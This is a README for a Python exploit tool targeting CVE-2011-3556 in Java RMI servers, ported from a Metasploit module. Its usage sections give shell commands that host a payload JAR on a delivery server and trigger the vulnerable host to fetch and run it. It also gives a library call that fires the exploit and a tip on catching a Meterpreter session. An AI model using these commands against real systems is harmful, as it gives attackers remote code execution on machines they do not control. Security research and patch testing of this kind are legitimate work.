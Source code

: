 # CVE-2011-3556 — Proof of Concept (PoC)

## Disclaimer

This tool is a Python 3 implementation of an existing [proof of concept (PoC)](https://www.exploit-db.com/raw/17535) made by mihi for the [Metasploit Framework](https://www.metasploit.com/).

## Prerequisites

To use the module, simply follow the instructions below:

```sh
# Clone this repository locally.
$ git clone https://github.com/sk4la/cve_2011_3556.git && cd cve_2011_3556/

# Optionally set the `x` bit to be able to execute the script directly.
$ chmod u+x exploit.py

$ ./exploit.py --help && echo "It works!"
```

## Usage

### Command-line

To be remotely loaded by the vulnerable Java RMI server, the payload (a JAR binary) must be served as an HTTP resource. One could quickly serve it using the famous `python3 -m http.server`.

Once the payload is made available for download, simply execute the `exploit.py` script to trigger the vulnerability.

```sh
$ python3 -m http.server --bind DELIVERY_HOST DELIVERY_PORT &
$ ./exploit.py -h VULNERABLE_HOST -u http://DELIVERY_HOST:DELIVERY_PORT/PAYLOAD.jar`
```

> In case the payload is a Meterpreter (Metasploit Framework), do not forget to `use exploit/multi/handler`.

### Library

This module can also be used as a library by importing the `cve_2011_3556` module to your current namespace:

```python
from cve_2011_3556 import JavaRMIExploit

JavaRMIExploit("127.0.0.1", "http://127.0.0.1/payload.jar").exploit()
```

It's as simple as that!

## Credits

Special thanks to mihi for the initial implementation of the Metasploit Framework [module](https://www.exploit-db.com/raw/17535).
